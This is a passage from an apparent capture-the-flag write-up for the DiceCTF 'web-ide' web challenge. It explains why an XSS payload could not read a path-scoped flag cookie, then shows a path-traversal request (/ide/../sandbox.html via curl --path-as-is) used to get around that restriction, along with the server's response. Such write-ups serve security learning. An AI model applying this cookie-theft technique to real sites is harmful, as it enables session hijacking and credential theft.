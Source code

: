 It would seem that the headless chrome instance did execute the code, and we got the request for the `/b64/` route, but `document.cookie` was empty.  What gives?  Visiting `/sandbox.html` in our own browser and looking in dev tools, even though we've logged in as `guest` there's no cookie.

## Adjusting

Lets revisit the server code that sets the cookie:

```js
  return res.cookie('token', `dice{${process.env.FLAG}}`, {
    path: '/ide',
    sameSite: 'none',
    secure: true
  }).redirect('/ide/');
```

Aha, it's confined to the `/ide` path.  We can get around this by using a relative path, tricking the browser into thinking we're on the `/ide` route, while still accessing `sandbox.html` which allows XSS and thus giving us access to the cookie. This is possible because Express doesn't normalize the route until it hits the `app.use(express.static('public/root'));` handler.

```shell
╭─zoey@parrot-virtual ~/sec/htb/oouch ‹master*› 
╰─$ curl -v --path-as-is https://web-ide.dicec.tf/ide/../sandbox.html
[...]
> GET /ide/../sandbox.html HTTP/2
> Host: web-ide.dicec.tf
> user-agent: curl/7.72.0
> accept: */*
> 
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* Connection state changed (MAX_CONCURRENT_STREAMS == 250)!
< HTTP/2 200 
< accept-ranges: bytes
< cache-control: public, max-age=0
< content-type: text/html; charset=UTF-8
< date: Mon, 08 Feb 2021 01:51:12 GMT
< etag: W/"b0-17769ce3e20"
< last-modified: Wed, 03 Feb 2021 21:31:00 GMT
< x-frame-options: DENY
< x-powered-by: Express
< content-length: 176
< 
<!doctype html>
<html>
  <head>
    <script src="src/sandbox.js"></script>
    <link rel="stylesheet" href="src/styles.css"/>
  </head>
  <body id="sandbox">
  </body>
</html>
```
